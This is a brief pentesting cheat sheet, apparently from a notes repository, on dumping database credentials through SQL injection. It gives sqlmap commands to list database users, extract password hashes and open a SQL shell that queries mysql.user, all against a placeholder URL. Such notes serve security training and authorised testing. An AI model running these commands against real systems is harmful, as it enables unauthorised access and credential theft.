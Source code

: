 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - sql-injection
  - blind-sql-injection
  - post-exploitation
  - enumeration-and-discovery
  - os-credential-dumping
  - file-transfer-and-data-exfiltration
---
```

# 05 - Credentials

## Automated

Enumerate user database accounts.

```
$ sqlmap -u "<URL>" --random-agent --users
```

Extract user database passwords.

```
$ sqlmap -u "<URL>" --random-agent --passwords
```

## Interactive SQL Shell

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT USER()

sql-shell> SELECT user, password FROM mysql.user
```